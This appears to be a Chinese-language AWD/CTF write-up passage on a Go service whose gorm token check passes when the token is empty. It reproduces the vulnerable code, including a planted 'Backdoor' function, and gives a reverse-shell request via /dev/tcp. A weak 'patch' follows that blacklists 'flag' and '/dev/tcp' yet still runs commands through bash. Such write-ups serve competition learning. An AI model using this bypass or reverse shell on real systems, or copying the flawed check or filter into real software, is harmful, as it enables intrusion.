 之后 CheckToken

db/session.go

```go
package db

type Session struct {
	UserID uint `gorm:"primaryKey"`
	Token  string
}

func CheckToken(token string) bool {
	// return gorm.ErrRecordNotFound when token not existed.
	return db.Where(&Session{Token: token}).First(&Session{}).Error == nil
}

// Backdoor for AWD checker, just ignore it
func Backdoor() string {
	var session Session
	db.First(&session)
	return session.Token
}
```

很经典的问题了, p 牛之前在知识星球里面也提到过

简单来说就是 Go 语言无法区分结构体中的某个字段是否被赋值过,  当 token 为空时 gorm 就不会为 token 生成条件语句

所以最后就能查询到管理员的 token, 从而访问 `/api/process` 路由

然后就是反弹 shell

```
/api/process/?token=&cmd=bash -c "bash -i >& /dev/tcp/ip/port 0>&1"
```

### Patch

二进制不知道咋修, 问了下 Pwn 队友说直接改函数逻辑或者 if 条件比较麻烦

**脑洞大开写了个这样的玩意**

```go
package main

import (
	"flag"
	"os/exec"
	"strings"
)

func main() {
	cPtr := flag.String("c", "whoami", "")
	flag.Parse()

	blacklist := []string{"flag", "/dev/tcp"}

	input := strings.ToLower(*cPtr)

	for _, s := range blacklist {
		if strings.Contains(input, s) {
			return
		}
	}
	exec.Command("/bin/bash", "-c", input).Run()
}

```
